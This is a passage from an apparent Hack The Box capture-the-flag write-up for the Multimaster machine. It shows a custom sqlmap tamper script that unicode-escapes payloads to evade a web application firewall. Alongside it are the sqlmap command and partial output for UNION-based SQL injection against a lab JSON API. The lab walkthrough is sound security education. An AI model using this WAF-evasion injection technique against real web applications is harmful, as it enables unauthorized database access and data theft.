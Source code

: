 Based on the response, I know I can write a `sqlmap` tamper script and use the UNION-based technique to scan the appplication server.

<div class="filename"><span>multimaster.py</span></div>

```python
#!/usr/bin/env python

import os
import string

from lib.core.common import singleTimeWarnMessage
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST

def dependencies():
    singleTimeWarnMessage("tamper script '%s' is only meant to be run against ASP or ASP.NET web applications" % os.path.basename(__file__).split(".")[0])

def tamper(payload, **kwargs):

    retVal = payload

    if payload:
        retVal = ""
        i = 0

        for c in payload:
            retVal += "\\u00{:x}".format(ord(c) & 0xff)

    return retVal
```

Let's do it. Don't forget to add a bit of time delay (`--delay=3`) to bypass the WAF as well.

```
# sqlmap --batch --dbms=mssql --delay=3 --data="{\"name\":\"*\"}" --url=http://megacorp.local/api/getColleagues --tamper=multimaster --technique=U
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:06:09 /2020-03-21/

[14:06:09] [INFO] loading tamper module 'multimaster'
[14:06:09] [WARNING] tamper script 'multimaster' is only meant to be run against ASP or ASP.NET web applications
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[14:06:09] [INFO] testing connection to the target URL
[14:06:13] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:06:21] [WARNING] heuristic (basic) test shows that (custom) POST parameter 'JSON #1*' might not be injectable
[14:06:24] [INFO] testing for SQL injection on (custom) POST parameter 'JSON #1*'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[14:06:24] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
```

[1]: https://www.hackthebox.eu/home/machines/profile/232
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/